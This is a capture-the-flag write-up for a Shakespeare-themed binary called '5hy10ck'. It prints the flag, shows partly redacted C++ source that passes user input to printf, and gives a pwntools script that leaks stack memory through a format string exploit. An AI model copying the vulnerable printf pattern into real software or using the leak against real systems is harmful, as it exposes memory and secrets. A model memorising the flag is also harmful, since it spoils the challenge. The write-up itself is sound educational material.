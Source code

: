 **Flag:**
```
JUCTF{h4th_n0t_a_j3w_3y3s}
```

We are given an executable binary file *'5hy10ck.exe'* (Windows) and *'5hy10ck.out'* (Linux) along with a PDF *'5hy10ck_src.pdf'* containing redacted source code.

```C++

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char thyname[128];

char bassanio[64] = █████████████████████████████████;
char antonio[64] = █████████████████████████████████;

char* need_ducats(const char* who, const char* for_whom)
{
    int i;
    char* forfeit = (char *) malloc(64 * sizeof(char));
    
    for(i = 0; i < 64; i++)
    {
        forfeit[i] = █████████████████████████████████;
    }
    
    return forfeit;
}

int main()
{
    char pound_of_flesh[64];
    strcpy(pound_of_flesh, need_ducats(antonio, bassanio));
    
    printf("SHYLOCK GPT\n");
    printf("-----------\n\n");
    
    printf("Who art thou? \n");
    printf(">> ");
    scanf("%s", thyname);
    
    printf("\nBegone! Let no man disturb me whilst I sup, unless Antonio cometh with his pound of flesh!\n");
    printf("Thou hath no business with me, ");
    printf(thyname);
    printf("\n");
    
    return 0;
}

```

From the code, it is quite apparent that the intended solution was a classic [**Format String Exploit**](https://owasp.org/www-community/attacks/Format_string_attack). Below is the code for the same that uses [**pwn**](https://github.com/Gallopsled/pwntools#readme) to interact with the binary:

```python

from pwn import *

io = process('./5hy10ck.out')
context.log_level = 'DEBUG'

io.recvuntil(b'thou?')

io.sendline('%x' + '-%x' * 32)

io.recvuntil(b'me, ')
data = io.recvuntil(b'\n')[:-1]

data = data.decode()

S = ''
for byte in data.split('-'):
    byte = byte.rjust(8, '0')
    
    A = bytearray.fromhex(byte)
    
    for C in reversed(A):
        if(C >= 32 and C < 128):
            S += chr(C)            

print('\n\n', S)

```

![img](https://user-images.githubusercontent.com/96875426/227787951-02050457-951a-4ff3-b545-48fdabff4943.png)
